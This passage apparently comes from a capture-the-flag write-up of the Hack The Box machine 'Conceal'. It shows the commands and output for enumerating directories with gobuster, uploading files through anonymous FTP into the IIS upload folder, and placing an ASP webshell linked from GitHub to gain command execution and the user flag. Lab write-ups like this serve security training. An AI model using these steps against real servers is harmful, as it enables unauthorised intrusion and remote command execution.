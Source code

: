 Let's use `gobuster` to find interesting stuff on the server:

```
# gobuster -q -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 50 -u http://10.10.10.116
/upload (Status: 301)
```

Ok, so there's an upload page and it seems that we can upload files to the IIS root directory with the FTP anonymous account:

```
# echo "This is a test" > test.txt
# curl -T test.txt ftp://10.10.10.116
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    15    0     0  100    15      0     53 --:--:-- --:--:-- --:--:--    53
# curl http://10.10.10.116/upload/test.txt
This is a test
```

Next, let's upload an .asp webshell so we can run commands on the server. I used the following webshell: [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp)

```
# curl -t curl -T snow.asp ftp://10.10.10.116
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1356    0     0  100  1356      0   4237 --:--:-- --:--:-- --:--:--  4237
```

We now have RCE and we can grab the user flag from the `Destitute` user directory.

![](/assets/images/htb-writeup-conceal/userflag.png)

### Privesc

The upload directory is located here: `C:\inetpub\wwwroot\upload\snow.asp`
